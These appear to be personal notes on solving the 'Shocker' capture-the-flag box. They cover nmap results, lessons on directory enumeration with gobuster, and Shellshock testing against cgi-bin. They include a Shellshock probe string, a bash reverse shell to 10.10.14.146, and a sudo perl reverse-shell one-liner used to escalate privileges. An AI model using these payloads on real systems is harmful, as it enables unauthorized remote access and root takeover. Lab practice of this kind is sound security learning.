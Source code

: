 80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html)

2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)


What I learned
- If you know its a web service/framework look for common files
- If gobuster is finding nothing about a website, they might be doing something to prevent it, or hiding it at best
- requests to directories without a trailing slash are just redirected with a trailing slash
- dirbuster willl send two requests, with and without that trailing slash
- gobuster does not, but the flag -f will add that trailing slash

- You need to really learn about the service/protocol and some of the nuances
- Maybe look at installing the service to learn more about it??
- Also when dealing with apache, its common to look for scripts in the cgi-bin folder
- Should prob run gobuster with -f option from now on
- when attacking directories, try over adding extensions than under adding, also make sure you know which extension it will most likely be

cgi-bin we go ahead and test shell shock "also because the box is called shocker"
test for shell shock using the string `() { :; }; sleep 10`
which gives us an internal server error which is pretty sus
`/bin/sh -i >& /dev/tcp/10.10.14.146/6000 0>&1`

Look for ssh configurations in /etc/ssh/sshd_config
sudo -l shows we can execute perl as sudo
lets try a reverse shell with perl
`sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.146";$p=6001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

Look at guides on how I shouldve upgraded to a TTY shell and how everyone else did things

Shouldve thought to look for SUID, also couldve tried to start a server and serve linpeas from it

Things to do:
Should look more into shell shock and why this vulnerability exists, as well as how to find it on the server
- honestly if the extension is .sh you should check for shell shock
